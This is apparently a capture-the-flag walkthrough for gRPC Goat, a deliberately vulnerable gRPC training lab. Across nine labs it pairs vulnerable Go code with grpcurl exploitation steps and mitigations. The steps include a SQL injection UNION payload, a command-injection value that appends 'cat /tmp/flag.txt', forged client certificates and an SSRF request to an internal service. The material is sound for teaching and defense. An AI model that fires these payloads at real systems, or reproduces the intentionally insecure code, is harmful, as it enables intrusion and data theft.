

import { Aside } from 'astro-pure/user'

# gRPC Goat Walkthrough

This guide provides step-by-step instructions for exploiting each vulnerability in gRPC Goat. Each lab demonstrates a real-world security issue and includes the commands needed to capture the flag.

<Aside type="tip">
**Prerequisites**: Make sure you have completed the [Getting Started](/docs/grpc_goat_docs/getting-started) guide and have `grpcurl` installed.
</Aside>



## Lab 001: gRPC Reflection Enabled

**Vulnerability**: Service Discovery API exposes hidden admin methods through gRPC reflection.

### Vulnerable Code Snippet
```go
// VULNERABILITY: Reflection enabled, exposing all service methods
reflection.Register(s)

func (s *serviceDiscoveryServer) AdminListAllServices(ctx context.Context, req *pb.AdminListAllServicesRequest) (*pb.AdminListAllServicesResponse, error) {
    // No authentication check - returns sensitive admin services
    return &pb.AdminListAllServicesResponse{
        AdminServices: adminServices,
        Flag: "GRPC_GOAT{...}",
    }, nil
}
```

### What to Look For
- gRPC reflection service enabled
- Hidden admin endpoints not meant for public access
- Sensitive methods discoverable through enumeration

<details>
<summary>**Exploitation Steps** (Click to reveal)</summary>

```bash
# Start the lab
docker compose up grpc-001 --build

# 1. Discover services via reflection
grpcurl -plaintext localhost:8001 list

# 2. Enumerate methods in the service
grpcurl -plaintext localhost:8001 list servicediscovery.ServiceDiscovery

# 3. Call the hidden admin method
grpcurl -plaintext -d '{"admin_token": "fake"}' \
  localhost:8001 servicediscovery.ServiceDiscovery/AdminListAllServices
```

</details>

<details>
<summary>**Flag** (Click to reveal)</summary>

`GRPC_GOAT{reflection_exposes_hidden_admin_methods}`

</details>

### Mitigation
```go
// DON'T: Enable reflection in production
// reflection.Register(s)

// DO: Disable reflection in production
if os.Getenv("ENVIRONMENT") == "development" {
    reflection.Register(s)
}

// DO: Add authentication for admin methods
if !isValidAdminToken(req.AdminToken) {
    return nil, status.Errorf(codes.Unauthenticated, "invalid admin token")
}
```

---

## Lab 002: Plaintext gRPC

**Vulnerability**: Auth Service sends credentials over unencrypted gRPC connections.

### Vulnerable Code Snippet
```go
func (s *authServer) Login(ctx context.Context, req *pb.LoginRequest) (*pb.LoginResponse, error) {
    // VULNERABILITY: Credentials logged in plaintext
    log.Printf("Login attempt - Username: %s, Password: %s", req.Username, req.Password)

    return &pb.LoginResponse{
        SessionToken: "session_" + req.Username + "_12345", // Predictable token
        Flag:         "GRPC_GOAT{...}",
    }, nil
}

// VULNERABILITY: Server runs without TLS
s := grpc.NewServer(grpc.UnaryInterceptor(unaryInterceptor))
```

### Lab Objective
To solve this lab, you simply connect to the plaintext gRPC service and call the authentication method with valid credentials. However, examining the service reveals additional security concerns:

**Immediate Issue (Lab Focus)**:
- Service accepts plaintext connections without requiring TLS
- Credentials are logged in server logs

**Broader Security Implications**:
- **Network Traffic Exposure**: In a real environment, credentials would be visible to anyone monitoring network traffic
- **Man-in-the-Middle Attacks**: Attackers could intercept and modify communications
- **Credential Harvesting**: Network-level attackers could collect authentication data

### What to Look For
- No TLS encryption on gRPC connections
- Credentials transmitted in plaintext
- Network traffic interception opportunities

<details>
<summary>**Exploitation Steps** (Click to reveal)</summary>

```bash
# Start the lab
docker compose up grpc-002 --build

# 1. Attempt login (credentials visible in network traffic)
grpcurl -plaintext -d '{"username": "admin", "password": "admin123"}' \
  localhost:8002 auth.AuthService/Login

# 2. Try other credentials
grpcurl -plaintext -d '{"username": "user", "password": "password123"}' \
  localhost:8002 auth.AuthService/Login
```

</details>

<details>
<summary>**Flag** (Click to reveal)</summary>

`GRPC_GOAT{plaintext_credentials_intercepted}`

</details>

### Mitigation
```go
// Use TLS for all gRPC connections
creds := credentials.NewTLS(&tls.Config{
    Certificates: []tls.Certificate{cert},
})
s := grpc.NewServer(grpc.Creds(creds))

// Implement secure authentication
func (s *authServer) Login(ctx context.Context, req *pb.LoginRequest) (*pb.LoginResponse, error) {
    // Don't log sensitive data
    if !verifyPassword(req.Username, req.Password) {
        return nil, status.Errorf(codes.Unauthenticated, "invalid credentials")
    }

    token, err := generateSecureToken()
    return &pb.LoginResponse{SessionToken: token}, nil
}
```

---

## Lab 003: Insecure TLS

**Vulnerability**: Billing Service uses self-signed certificates that can't be properly verified.

### Vulnerable Code Snippet
```go
func (s *billingServer) ProcessPayment(ctx context.Context, req *pb.PaymentRequest) (*pb.PaymentResponse, error) {
    // VULNERABILITY: Sensitive payment data logged
    log.Printf("Payment processing - Card: %s, CVV: %s", req.CardNumber, req.Cvv)

    return &pb.PaymentResponse{
        Flag: "GRPC_GOAT{...}",
    }, nil
}

// VULNERABILITY: Self-signed certificate with weak TLS config
tlsConfig := &tls.Config{
    Certificates: []tls.Certificate{selfSignedCert}, // Self-signed!
}
```

### Lab Objective
To solve this lab, you bypass certificate validation using the `-insecure` flag to connect to a service with a self-signed certificate. However, this reveals deeper security issues:

**Immediate Issue (Lab Focus)**:
- Service uses self-signed certificates that clients must bypass
- Sensitive payment data is logged in plaintext

**Broader Security Implications**:
- **Trust Establishment**: Clients cannot verify server identity, enabling impersonation attacks

### What to Look For
- Self-signed TLS certificates
- Certificate validation bypasses required
- Man-in-the-middle attack opportunities

<details>
<summary>**Exploitation Steps** (Click to reveal)</summary>

```bash
# Start the lab
docker compose up grpc-003 --build

# 1. Connect with insecure TLS (ignore certificate errors)
grpcurl -insecure -d '{
  "customer_id": "CUST001",
  "card_number": "4111111111111111",
  "expiry_date": "12/25",
  "cvv": "123",
  "amount": 99.99,
  "currency": "USD"
}' localhost:8003 billing.BillingService/ProcessPayment
```

</details>

<details>
<summary>**Flag** (Click to reveal)</summary>

`GRPC_GOAT{insecure_tls_allows_mitm_attacks}`

</details>

### Mitigation
```go
// Use proper CA-signed certificates
cert, err := tls.LoadX509KeyPair("server.crt", "server.key")

// Configure secure TLS
tlsConfig := &tls.Config{
    Certificates: []tls.Certificate{cert},
    MinVersion:   tls.VersionTLS12,
}

// Don't log sensitive data
func (s *billingServer) ProcessPayment(ctx context.Context, req *pb.PaymentRequest) (*pb.PaymentResponse, error) {
    log.Printf("Processing payment for customer: %s", req.CustomerId) // Safe logging
    // Process payment securely...
}
```

---

## Lab 004: Arbitrary mTLS

**Vulnerability**: Partner API accepts any client certificate, allowing impersonation.

### Vulnerable Code Snippet
```go
func (s *partnerServer) GetPartnerData(ctx context.Context, req *pb.PartnerDataRequest) (*pb.PartnerDataResponse, error) {
    // VULNERABILITY: Returns sensitive data without proper certificate validation
    partners := []*pb.PartnerInfo{
        {ApiKey: "tc_live_sk_1234567890abcdef", Secret: "tc_secret_xyz789"},
    }
    return &pb.PartnerDataResponse{Partners: partners, Flag: "GRPC_GOAT{...}"}, nil
}

// VULNERABILITY: mTLS accepts ANY client certificate
tlsConfig := &tls.Config{
    ClientAuth: tls.RequireAnyClientCert, // Accepts any certificate!
}
```

### Lab Objective
To solve this lab, you generate a self-signed client certificate and use it to access partner data. This demonstrates how improper mTLS configuration can be exploited:

**Immediate Issue (Lab Focus)**:
- mTLS configuration accepts any client certificate without validation
- No verification against a trusted Certificate Authority

**Broader Security Implications**:
- **Partner Impersonation**: Any attacker can create certificates and pose as legitimate partners
- **Data Breach**: Sensitive partner API keys and secrets are exposed to unauthorized clients
- **Trust Model Failure**: The entire purpose of mTLS (mutual authentication) is defeated

### What to Look For
- mTLS configuration that accepts any certificate
- No certificate authority validation
- Partner impersonation possibilities

<details>
<summary>**Exploitation Steps** (Click to reveal)</summary>

```bash
# Start the lab
docker compose up grpc-004 --build

# 1. Generate fake client certificate
openssl genrsa -out client.key 2048
openssl req -new -key client.key -out client.csr -subj "/CN=FakePartner/O=AttackerCorp"
openssl x509 -req -in client.csr -signkey client.key -out client.crt -days 365

# 2. Use fake certificate to access partner data
grpcurl -insecure -cert client.crt -key client.key -d '{
  "partner_id": "FAKE_PARTNER",
  "data_type": "all"
}' localhost:8004 partner.PartnerAPI/GetPartnerData
```

</details>

<details>
<summary>**Flag** (Click to reveal)</summary>

`GRPC_GOAT{arbitrary_mtls_bypasses_partner_auth}`

</details>

### Mitigation
```go
// Use proper CA validation for mTLS
caCertPool := x509.NewCertPool()
caCertPool.AppendCertsFromPEM(caCert)

tlsConfig := &tls.Config{
    ClientAuth: tls.RequireAndVerifyClientCert,
    ClientCAs:  caCertPool, // Verify against trusted CA
}

// Validate client certificate in handler
func (s *partnerServer) GetPartnerData(ctx context.Context, req *pb.PartnerDataRequest) (*pb.PartnerDataResponse, error) {
    if !isValidPartnerCertificate(tlsInfo.State.PeerCertificates[0]) {
        return nil, status.Errorf(codes.PermissionDenied, "invalid partner certificate")
    }
    // Return data only after validation...
}
```

---

## Lab 005: mTLS Subject Validation

**Vulnerability**: Partner API validates subject name but accepts self-signed certificates.

### Vulnerable Code Snippet
```go
func (s *partnerServer) GetPartnerData(ctx context.Context, req *pb.PartnerDataRequest) (*pb.PartnerDataResponse, error) {
    cert := tlsInfo.State.PeerCertificates[0]
    expectedSubject := "goatpartner.local"

    // VULNERABILITY: Only checking subject CN, not validating against trusted CA
    if cert.Subject.CommonName != expectedSubject {
        return &pb.PartnerDataResponse{Success: false}, nil
    }

    // Returns sensitive data if subject matches (even with self-signed cert)
    return &pb.PartnerDataResponse{Partners: partners, Flag: "GRPC_GOAT{...}"}, nil
}

// VULNERABILITY: Still accepts any client certificate
tlsConfig := &tls.Config{
    ClientAuth: tls.RequireAnyClientCert, // No CA validation!
}
```

### Lab Objective
To solve this lab, you create a self-signed certificate with the correct subject name (`goatpartner.local`) to bypass the subject validation. This demonstrates a common mTLS misconfiguration:

**Immediate Issue (Lab Focus)**:
- Service validates certificate subject but not the certificate authority
- Self-signed certificates with correct subjects are accepted

**Broader Security Implications**:
- **Partner Impersonation**: Attackers can create certificates with legitimate subjects and pose as trusted partners
- **Data Breach**: Sensitive partner data is exposed to unauthorized clients with forged certificates
- **Trust Model Failure**: Subject validation alone is insufficient without proper CA verification

### What to Look For
- Subject name validation in mTLS
- Acceptance of self-signed certificates
- Certificate impersonation with correct subject

<details>
<summary>**Exploitation Steps** (Click to reveal)</summary>

```bash
# Start the lab
docker compose up grpc-005 --build

# 1. Generate certificate with required subject name
openssl genrsa -out client.key 2048
openssl req -new -key client.key -out client.csr -subj "/CN=goatpartner.local/O=AttackerCorp"
openssl x509 -req -in client.csr -signkey client.key -out client.crt -days 365

# 2. Access partner data with correct subject
grpcurl -insecure -cert client.crt -key client.key -d '{
  "partner_id": "GOAT_PARTNER",
  "data_type": "all"
}' localhost:8005 partner.PartnerAPI/GetPartnerData
```

</details>

<details>
<summary>**Flag** (Click to reveal)</summary>

`GRPC_GOAT{subject_validation_insufficient_for_mtls}`

</details>

### Mitigation
```go
// Validate both subject AND certificate authority
func (s *partnerServer) GetPartnerData(ctx context.Context, req *pb.PartnerDataRequest) (*pb.PartnerDataResponse, error) {
    cert := tlsInfo.State.PeerCertificates[0]

    // First validate certificate chain against trusted CA
    opts := x509.VerifyOptions{Roots: trustedCAPool}
    if _, err := cert.Verify(opts); err != nil {
        return nil, status.Errorf(codes.Unauthenticated, "certificate verification failed")
    }

    // Then check subject name
    if cert.Subject.CommonName != "goatpartner.local" {
        return nil, status.Errorf(codes.PermissionDenied, "invalid certificate subject")
    }
    // Return data only after full validation
}

// Use proper CA validation in TLS config
tlsConfig := &tls.Config{
    ClientAuth: tls.RequireAndVerifyClientCert,
    ClientCAs:  trustedCAPool,
}
```

---

## Lab 006: Unix Socket World Writable

**Vulnerability**: Admin service uses Unix socket with world read/write permissions.

### Vulnerable Code Snippet
```go
func main() {
    socketPath := "/tmp/grpc-admin.sock"
    lis, err := net.Listen("unix", socketPath)

    // VULNERABILITY: Set world read/write permissions
    err = os.Chmod(socketPath, 0666) // rw-rw-rw- (world writable!)
}

func (s *adminServer) ExecuteCommand(ctx context.Context, req *pb.CommandRequest) (*pb.CommandResponse, error) {
    // VULNERABILITY: No authentication check for admin commands
    staticOutput := "GRPC_GOAT{...}\nroot\nuid=0(root) gid=0(root)"
    return &pb.CommandResponse{Success: true, Output: staticOutput}, nil
}
```

### What to Look For
- Unix domain sockets with improper permissions
- Privilege escalation opportunities
- Access to admin functions by any user

<details>
<summary>**Exploitation Steps** (Click to reveal)</summary>

```bash
# Start the lab
docker compose up grpc-006 --build
docker exec -it grpc-goat-006 sh

# 1. Check socket permissions
ls -la /tmp/grpc-admin.sock

# 2. Install grpcurl in container
apk add --no-cache go
go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest

# 3. Connect via Unix socket
grpcurl -plaintext -unix /tmp/grpc-admin.sock admin.AdminService/GetSystemInfo

# 4. Execute admin commands
grpcurl -plaintext -unix /tmp/grpc-admin.sock -d '{
  "command": "whoami"
}' admin.AdminService/ExecuteCommand
```

</details>

<details>
<summary>**Flag** (Click to reveal)</summary>

`GRPC_GOAT{unix_socket_world_writable_privilege_escalation}`

</details>

### Mitigation
```go
func main() {
    socketPath := "/tmp/grpc-admin.sock"
    lis, err := net.Listen("unix", socketPath)

    // Set restrictive permissions (owner only)
    err = os.Chmod(socketPath, 0600) // rw------- (owner only)

    // Change ownership to specific user/group
    if err := os.Chown(socketPath, adminUID, adminGID); err != nil {
        log.Fatalf("Failed to set socket ownership: %v", err)
    }
}

// Implement proper authentication
func (s *adminServer) ExecuteCommand(ctx context.Context, req *pb.CommandRequest) (*pb.CommandResponse, error) {
    // Validate admin privileges
    if !isAuthorizedAdmin(ctx) {
        return nil, status.Errorf(codes.PermissionDenied, "admin privileges required")
    }

    // Validate and sanitize commands
    if !isAllowedCommand(req.Command) {
        return nil, status.Errorf(codes.InvalidArgument, "command not allowed")
    }
    // Execute securely...
}
```

---

## Lab 007: SQL Injection

**Vulnerability**: User Directory service has SQL injection in username search.

### Vulnerable Code Snippet
```go
func (s *userDirectoryServer) SearchUsers(ctx context.Context, req *pb.SearchUsersRequest) (*pb.SearchUsersResponse, error) {
    // VULNERABILITY: SQL injection - directly concatenating user input
    query := fmt.Sprintf("SELECT username, email, role FROM users WHERE username = '%s'", req.Username)

    rows, err := s.db.Query(query) // Vulnerable to SQL injection!

    // Check if we found the flag user
    if user.Username == "flag_user" || strings.Contains(user.Role, "GRPC_GOAT") {
        flag = "GRPC_GOAT{...}"
    }

    return &pb.SearchUsersResponse{Users: users, Flag: flag}, nil
}
```

### What to Look For
- Unsanitized database queries
- SQL injection in gRPC parameters
- Data exfiltration opportunities

<details>
<summary>**Exploitation Steps** (Click to reveal)</summary>

```bash
# Start the lab
docker compose up grpc-007 --build

# 1. Normal search
grpcurl -plaintext -d '{
  "username": "john"
}' localhost:8007 userdirectory.UserDirectory/SearchUsers

# 2. SQL injection to get all users
grpcurl -plaintext -d '{
  "username": "admin'\'' UNION SELECT username, email, role FROM users WHERE role='\''admin'\'' --"
}' localhost:8007 userdirectory.UserDirectory/SearchUsers
```

</details>

<details>
<summary>**Flag** (Click to reveal)</summary>

`GRPC_GOAT{sql_injection_data_exfiltration}`

</details>

### Mitigation
```go
// Use parameterized queries to prevent SQL injection
func (s *userDirectoryServer) SearchUsers(ctx context.Context, req *pb.SearchUsersRequest) (*pb.SearchUsersResponse, error) {
    // Validate input
    if req.Username == "" {
        return nil, status.Errorf(codes.InvalidArgument, "username cannot be empty")
    }

    // Use parameterized query
    query := "SELECT username, email, role FROM users WHERE username = ?"
    rows, err := s.db.Query(query, req.Username) // Safe parameterized query

    // Process results safely...
    return &pb.SearchUsersResponse{Success: true, Users: users}, nil
}

// Use an ORM for additional safety
result := s.db.Where("username = ?", req.Username).Find(&users)
```

---

## Lab 008: Command Injection

**Vulnerability**: File Processor service has command injection in directory listing.

### Vulnerable Code Snippet
```go
func (s *fileProcessorServer) ListFiles(ctx context.Context, req *pb.ListFilesRequest) (*pb.ListFilesResponse, error) {
    // VULNERABILITY: Command injection - directly using user input
    command := fmt.Sprintf("ls -la %s", req.Directory)

    // Vulnerable: User input directly passed to shell
    output, err := exec.Command("sh", "-c", command).Output()

    // Check if flag was read through command injection
    if strings.Contains(outputStr, "GRPC_GOAT{command_injection_file_listing}") {
        flag = "GRPC_GOAT{...}"
    }

    return &pb.ListFilesResponse{Success: true, Output: outputStr, Flag: flag}, nil
}
```

### What to Look For
- Unsanitized command execution
- Shell injection opportunities
- System command execution

<details>
<summary>**Exploitation Steps** (Click to reveal)</summary>

```bash
# Start the lab
docker compose up grpc-008 --build

# 1. Normal directory listing
grpcurl -plaintext -d '{
  "directory": "/tmp"
}' localhost:8008 fileprocessor.FileProcessor/ListFiles

# 2. Command injection to read flag
grpcurl -plaintext -d '{
  "directory": "/tmp; cat /tmp/flag.txt"
}' localhost:8008 fileprocessor.FileProcessor/ListFiles
```

</details>

<details>
<summary>**Flag** (Click to reveal)</summary>

`GRPC_GOAT{command_injection_file_listing}`

</details>

### Mitigation
```go
// Validate and sanitize input, avoid shell execution
func (s *fileProcessorServer) ListFiles(ctx context.Context, req *pb.ListFilesRequest) (*pb.ListFilesResponse, error) {
    // Validate directory path
    if !isValidPath(req.Directory) {
        return nil, status.Errorf(codes.InvalidArgument, "invalid directory path")
    }

    // Use filepath.Clean to prevent path traversal
    cleanPath := filepath.Clean(req.Directory)

    // Validate against allowed directories
    if !isAllowedDirectory(cleanPath) {
        return nil, status.Errorf(codes.PermissionDenied, "directory access not allowed")
    }

    // Use Go's built-in functions instead of shell commands
    files, err := ioutil.ReadDir(cleanPath)
    if err != nil {
        return nil, status.Errorf(codes.NotFound, "failed to read directory")
    }
    // Process files safely...
}

func isValidPath(path string) bool {
    matched, _ := regexp.MatchString(`^[a-zA-Z0-9/_.-]+$`, path)
    return matched
}
```

---

## Lab 009: Server-Side Request Forgery (SSRF)

**Vulnerability**: Image Preview service fetches URLs without validation.

### Vulnerable Code Snippet
```go
func (s *imagePreviewServer) FetchImage(ctx context.Context, req *pb.FetchImageRequest) (*pb.FetchImageResponse, error) {
    // VULNERABILITY: SSRF - directly fetching user-provided URLs without validation
    client := &http.Client{Timeout: 10 * time.Second}

    // No URL validation - can access internal services!
    resp, err := client.Get(req.Url)

    body, err := io.ReadAll(resp.Body)
    return &pb.FetchImageResponse{
        Success: true,
        Content: string(body), // Returns internal service responses
    }, nil
}

// Internal flag server accessible via SSRF
func startFlagServer() {
    http.HandleFunc("/flag", func(w http.ResponseWriter, r *http.Request) {
        fmt.Fprint(w, "GRPC_GOAT{...}") // Flag accessible via SSRF
    })
    go http.ListenAndServe("127.0.0.1:8080", nil)
}
```

### What to Look For
- Server-side URL fetching
- No URL validation or filtering
- Internal service access opportunities

<details>
<summary>**Exploitation Steps** (Click to reveal)</summary>

```bash
# Start the lab
docker compose up grpc-009 --build

# 1. Normal external URL fetch
grpcurl -plaintext -d '{
  "url": "https://httpbin.org/get"
}' localhost:8009 imagepreview.ImagePreview/FetchImage

# 2. SSRF to access internal flag server
grpcurl -plaintext -d '{
  "url": "http://localhost:8080/flag"
}' localhost:8009 imagepreview.ImagePreview/FetchImage
```

</details>

<details>
<summary>**Flag** (Click to reveal)</summary>

`GRPC_GOAT{ssrf_internal_service_access}`

</details>

### Mitigation
```go
// Implement URL validation and filtering
func (s *imagePreviewServer) FetchImage(ctx context.Context, req *pb.FetchImageRequest) (*pb.FetchImageResponse, error) {
    // Validate URL format
    parsedURL, err := url.Parse(req.Url)
    if err != nil {
        return nil, status.Errorf(codes.InvalidArgument, "invalid URL format")
    }

    // Only allow HTTP/HTTPS schemes
    if parsedURL.Scheme != "http" && parsedURL.Scheme != "https" {
        return nil, status.Errorf(codes.InvalidArgument, "only HTTP/HTTPS URLs allowed")
    }

    // Block internal/private IP ranges
    if isInternalIP(parsedURL.Hostname()) {
        return nil, status.Errorf(codes.PermissionDenied, "access to internal IPs not allowed")
    }

    // Use allowlist of permitted domains
    if !isAllowedDomain(parsedURL.Hostname()) {
        return nil, status.Errorf(codes.PermissionDenied, "domain not in allowlist")
    }
    // Configure secure HTTP client...
}

func isInternalIP(hostname string) bool {
    ip := net.ParseIP(hostname)
    return ip.IsLoopback() || ip.IsPrivate() || ip.IsLinkLocalUnicast()
}
```

---

## Security Lessons Learned

### Understanding Lab vs. Real-World Vulnerabilities

**Important Note**: The labs focus on demonstrating specific gRPC vulnerabilities through direct exploitation techniques. However, many of the underlying security issues have broader implications in real-world scenarios:

- **Lab Approach**: Direct connection and exploitation to demonstrate the core vulnerability
- **Real-World Impact**: These same vulnerabilities enable more sophisticated attacks like network interception, MITM attacks, and other advanced techniques

For example, while Lab 002 shows direct plaintext connection, the real security risk is that credentials would be visible to network monitoring tools, packet sniffers, or man-in-the-middle attackers in production environments.

### Key Takeaways

1. **Disable gRPC Reflection** in production environments to prevent service discovery
2. **Always use TLS** for gRPC communications to protect data in transit
3. **Implement proper certificate validation** for mTLS with trusted CAs
4. **Set correct file permissions** for Unix sockets (600 or 660, not 666)
5. **Sanitize all user inputs** to prevent injection attacks (SQL, command, etc.)
6. **Validate and filter URLs** in server-side requests to prevent SSRF
7. **Use proper authentication** and authorization for all sensitive operations
8. **Implement comprehensive logging** and monitoring for security events

### Best Practices Summary

| Vulnerability Type | Key Mitigation |
|-------------------|----------------|
| **gRPC Reflection** | Disable in production, use authentication for admin methods |
| **Plaintext gRPC** | Always use TLS, implement secure authentication |
| **Insecure TLS** | Use CA-signed certificates, proper TLS configuration |
| **Arbitrary mTLS** | Validate certificates against trusted CAs |
| **Subject Validation** | Combine subject validation with CA verification |
| **Unix Socket Permissions** | Use restrictive permissions (600), proper ownership |
| **SQL Injection** | Use parameterized queries, input validation |
| **Command Injection** | Avoid shell execution, shell escaping, validate/sanitize inputs |
| **SSRF** | URL validation, IP filtering, domain allowlists |

<Aside type="caution">
**Remember**: These vulnerabilities are intentionally created for educational purposes. Never deploy vulnerable code in production environments.
</Aside>

## Next Steps

Congratulations on completing the gRPC Goat labs! To continue your gRPC security journey:

1. **Practice Defense**: Try to fix each vulnerability in the lab code using the provided mitigations
2. **Learn More**: Study gRPC security best practices and official security guidelines
3. **Apply Knowledge**: Audit your own gRPC services for similar security issues
4. **Share**: Help others learn by contributing to the project or sharing your experience
5. **Advanced Practice**: Set up your own vulnerable gRPC services to practice with

### Additional Resources

- [gRPC Security Guide](https://grpc.io/docs/guides/security/)
- [OWASP API Security Top 10](https://owasp.org/www-project-api-security/)
- [gRPC Authentication Documentation](https://grpc.io/docs/guides/auth/)

Ready to secure your gRPC applications? Apply these lessons to your real-world projects!
